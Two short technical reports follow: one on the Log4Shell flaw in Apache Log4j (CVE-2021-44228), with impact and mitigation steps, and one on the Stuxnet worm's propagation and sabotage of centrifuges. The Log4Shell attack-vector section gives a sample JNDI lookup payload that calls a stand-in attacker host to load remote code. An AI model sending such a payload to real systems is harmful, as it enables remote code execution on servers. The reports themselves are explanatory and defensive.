 
# Technical Report: Log4j Vulnerability (Log4Shell)

## Overview
In December 2021, a critical zero-day vulnerability, tracked as CVE-2021-44228, was discovered in Apache Log4j 2, a popular Java-based logging library. The flaw, dubbed **Log4Shell**, allowed remote code execution (RCE) by simply logging a specially crafted string.

## Vulnerability Details
- **CVE ID**: CVE-2021-44228 (and related CVE-2021-45046, CVE-2021-45105)
- **Severity**: Critical (CVSS Score: 10.0)
- **Affected Versions**: Apache Log4j 2.x < 2.15.0 (later advisories extended to 2.16.0 and 2.17.0 for additional issues)
- **Attack Vector**:
  1. Log4j performs **message lookup substitutions**.
  2. An attacker sends a string like: `${jndi:ldap://attacker.com/a}`.
  3. JNDI connects to the attacker-controlled server.
  4. Malicious Java bytecode is returned and executed.

## Impact
- Remote Code Execution (RCE) without authentication.
- Potential full compromise of affected servers.
- Massive attack surface due to widespread use of Log4j in enterprise and open-source projects.

## Mitigation
1. **Upgrade** to Log4j 2.17.1+.
2. Remove the `JndiLookup` class from the classpath:
   ```bash
   zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class
   ```
3. Disable message lookups:
   ```bash
   -Dlog4j2.formatMsgNoLookups=true
   ```
4. Apply WAF rules to block `${jndi:` patterns.

## Real-World Exploitation
- Exploited in the wild within hours of disclosure.
- Used in ransomware, cryptomining, botnets, and espionage campaigns.
- Affected cloud services (AWS, Minecraft servers, etc.).

## Lessons Learned
- Widespread dependencies can introduce systemic risks.
- Supply chain security and SBOM (Software Bill of Materials) are critical.
- Rapid patch management processes are essential.


---


# Technical Report: Stuxnet Worm

## Overview
Stuxnet is a sophisticated computer worm discovered in 2010, widely believed to have been developed by the U.S. and Israel to sabotage Iran's nuclear enrichment facilities. It is notable as the first publicly known malware to target industrial control systems (ICS) and cause physical damage.

## Technical Details
- **First Detected**: June 2010
- **Targets**: Siemens Step7 software and PLCs (Programmable Logic Controllers)
- **Propagation Methods**:
  1. **USB drives** with LNK shortcut exploits.
  2. Windows network shares and printer spooler zero-days.
  3. Exploitation of Windows vulnerabilities (including CVE-2010-2568).

## Payload
- Injects malicious code into PLCs controlling uranium centrifuges.
- Alters rotor speeds causing mechanical degradation while feeding false normal readings to operators.
- Highly stealthy to avoid detection.

## Exploited Vulnerabilities
- Multiple Windows zero-days:
  - CVE-2010-2568 (LNK vulnerability)
  - CVE-2010-2729 (Print Spooler vulnerability)
  - Others targeting privilege escalation and code execution.

## Impact
- Damaged approximately 1,000 centrifuges at the Natanz facility.
- Set back Iran's nuclear program by months or years.
- Demonstrated the potential of cyber weapons to cause real-world damage.

## Detection & Analysis
- First identified by VirusBlokAda (Belarus) and analyzed by Symantec.
- Contained advanced rootkit components for both Windows and PLC firmware.
- Estimated development took years and significant resources.

## Lessons Learned
- ICS/SCADA systems are high-value targets.
- Air-gapping is not a guarantee of security.
- Cyber operations can have geopolitical consequences.

